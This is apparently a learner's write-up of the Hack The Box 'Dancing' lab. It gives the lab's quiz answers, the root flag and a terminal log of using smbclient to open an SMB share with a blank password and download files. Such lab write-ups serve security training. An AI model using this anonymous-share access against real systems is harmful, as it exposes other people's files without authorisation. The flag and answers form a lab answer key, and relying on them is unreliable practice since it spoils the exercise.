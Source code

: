 
#### What does the 3-letter acronym SMB stand for?
Server Message Block

#### What port does SMB use to operate at?
445

#### What is the service name for port 445 that came up in our Nmap scan?
microsoft-ds

#### What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?
-L

#### How many shares are there on Dancing?
4

#### What is the name of the share we are able to access in the end with a blank password?
WorkShares

#### What is the command we can use within the SMB shell to download the files we find?
get

#### Submit root flag
5f61c10dffbc77a704d76016a22f1664

``` bash 
┌─[✗]─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Dancing]
└──╼ $smbclient \\\\10.129.196.63\\WorkShares
Password for [WORKGROUP\ramdark]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 02:22:01 2021
  ..                                  D        0  Mon Mar 29 02:22:01 2021
  Amy.J                               D        0  Mon Mar 29 03:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1732249 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 03:08:24 2021
  ..                                  D        0  Mon Mar 29 03:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 05:00:37 2021

		5114111 blocks of size 4096. 1732006 blocks available
smb: \Amy.J\> get worknotes.txt 
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \Amy.J\> cd..
cd..: command not found
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 03:08:24 2021
  ..                                  D        0  Mon Mar 29 03:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 05:00:37 2021

		5114111 blocks of size 4096. 1731998 blocks available
smb: \Amy.J\> cd ..
smb: \> ls
  .                                   D        0  Mon Mar 29 02:22:01 2021
  ..                                  D        0  Mon Mar 29 02:22:01 2021
  Amy.J                               D        0  Mon Mar 29 03:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1731998 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 03:38:03 2021
  ..                                  D        0  Thu Jun  3 03:38:03 2021
  flag.txt                            A       32  Mon Mar 29 03:26:57 2021

		5114111 blocks of size 4096. 1732078 blocks available
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\> close
close <fnum>
smb: \James.P\> cd ..
smb: \> close
close <fnum>
smb: \> exit
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Dancing]
└──╼ $
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Dancing]
└──╼ $ls
Dancing.md  document.pdf  flag.txt  worknotes.txt
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Dancing]
└──╼ $cat worknotes.txt 
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing ┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Dancing]
└──╼ $cat flag.txt 
5f61c10dffbc77a704d76016a22f1664
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Dancing]
└──╼ $


```
